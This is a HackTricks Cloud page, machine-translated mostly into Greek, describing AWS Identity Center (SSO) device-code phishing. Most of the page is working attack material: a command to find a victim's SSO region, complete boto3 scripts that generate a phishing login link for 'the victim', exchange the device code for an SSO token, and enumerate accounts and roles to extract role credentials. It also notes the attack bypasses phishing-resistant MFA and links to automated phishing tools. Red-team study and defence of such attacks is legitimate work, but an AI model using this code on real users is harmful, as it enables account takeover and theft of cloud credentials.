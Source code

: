 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Αρχικά προτάθηκε σε [**αυτή την ανάρτηση blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), είναι δυνατόν να σταλεί ένα **link** σε έναν χρήστη που χρησιμοποιεί AWS SSO, το οποίο αν **αποδεχθεί** ο χρήστης, ο επιτιθέμενος θα μπορέσει να αποκτήσει ένα **token για να προσποιηθεί τον χρήστη** και να έχει πρόσβαση σε όλους τους ρόλους που μπορεί να έχει πρόσβαση ο χρήστης στο **Identity Center**.

Για να εκτελεστεί αυτή η επίθεση, οι προϋποθέσεις είναι:

* Το θύμα πρέπει να χρησιμοποιεί το **Identity Center**
* Ο επιτιθέμενος πρέπει να γνωρίζει το **subdomain** που χρησιμοποιεί το θύμα `<victimsub>.awsapps.com/start`

Μόνο με τις προηγούμενες πληροφορίες, ο **επιτιθέμενος θα μπορέσει να στείλει ένα link στον χρήστη** που αν **αποδεχθεί** θα παραχωρήσει στον **επιτιθέμενο πρόσβαση στον λογαριασμό AWS** του χρήστη.

### Attack

1. **Finding the subdomain**

Το πρώτο βήμα του επιτιθέμενου είναι να ανακαλύψει το subdomain που χρησιμοποιεί η εταιρεία του θύματος στο Identity Center τους. Αυτό μπορεί να γίνει μέσω **OSINT** ή **μαντεψιάς + BF**, καθώς οι περισσότερες εταιρείες θα χρησιμοποιούν το όνομά τους ή μια παραλλαγή του ονόματός τους εδώ.

Με αυτές τις πληροφορίες, είναι δυνατόν να αποκτηθεί η περιοχή όπου έχει ρυθμιστεί το Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Δημιουργήστε τον σύνδεσμο για το θύμα & Στείλτε τον**

Run the following code to generate an AWS SSO login link so the victim can authenticate.\
Για την επίδειξη, εκτελέστε αυτόν τον κώδικα σε μια κονσόλα python και μην βγείτε από αυτήν καθώς αργότερα θα χρειαστείτε κάποια αντικείμενα για να αποκτήσετε το token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Στείλτε τον παραγόμενο σύνδεσμο στο θύμα χρησιμοποιώντας τις καταπληκτικές σας ικανότητες κοινωνικής μηχανικής!

3. **Περιμένετε μέχρι το θύμα να το αποδεχτεί**

Αν το θύμα ήταν **ήδη συνδεδεμένο στο AWS**, θα χρειαστεί απλώς να αποδεχτεί την παροχή των δικαιωμάτων, αν δεν ήταν, θα χρειαστεί να **συνδεθεί και στη συνέχεια να αποδεχτεί την παροχή των δικαιωμάτων**.\
Αυτή είναι η εμφάνιση του προτροπής σήμερα:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Αποκτήστε το SSO access token**

Αν το θύμα αποδέχτηκε την προτροπή, εκτελέστε αυτόν τον κώδικα για να **δημιουργήσετε ένα SSO token προσποιούμενοι τον χρήστη**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Το διακριτικό πρόσβασης SSO είναι **έγκυρο για 8 ώρες**.

5. **Προσωποποιήστε τον χρήστη**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Είναι διασκεδαστικό να γνωρίζουμε ότι η προηγούμενη επίθεση **λειτουργεί ακόμη και αν χρησιμοποιείται ένα "unphisable MFA" (webAuth)**. Αυτό συμβαίνει επειδή η προηγούμενη **ροή εργασίας δεν αφήνει το χρησιμοποιούμενο OAuth domain**. Όχι όπως σε άλλες επιθέσεις phishing όπου ο χρήστης πρέπει να αντικαταστήσει το domain σύνδεσης, στην περίπτωση που η ροή κωδικού συσκευής είναι προετοιμασμένη έτσι ώστε ένας **κωδικός να είναι γνωστός από μια συσκευή** και ο χρήστης μπορεί να συνδεθεί ακόμη και σε μια διαφορετική μηχανή. Εάν γίνει αποδεκτή η προτροπή, η συσκευή, απλά γνωρίζοντας τον αρχικό κωδικό, θα είναι σε θέση να **ανακτήσει διαπιστευτήρια** για τον χρήστη.

Για περισσότερες πληροφορίες σχετικά με αυτό [**δείτε αυτή την ανάρτηση**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
